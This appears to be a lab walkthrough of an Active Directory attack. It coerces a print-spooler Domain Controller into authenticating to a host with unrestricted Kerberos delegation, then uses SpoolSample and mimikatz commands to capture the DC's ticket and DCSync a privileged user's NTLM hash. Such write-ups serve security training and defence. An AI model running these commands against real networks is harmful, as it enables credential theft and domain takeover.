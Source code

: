 # Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller \(or any other host to be fair\) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled. 
  * This is done via RCP API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on:

{% page-ref page="domain-compromise-via-unrestricted-kerberos-delegation.md" %}

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled \(attacker, server\)
* dc01 - domain controller running a print service \(victim, target\)

After compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin_), we execute it with two arguments `target` and `server`:

```csharp
.\SpoolSample.exe dc01 ws01
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-32-34.png)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-33-49.png)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-43-32.png)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved -  get cracking or passing it now.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}

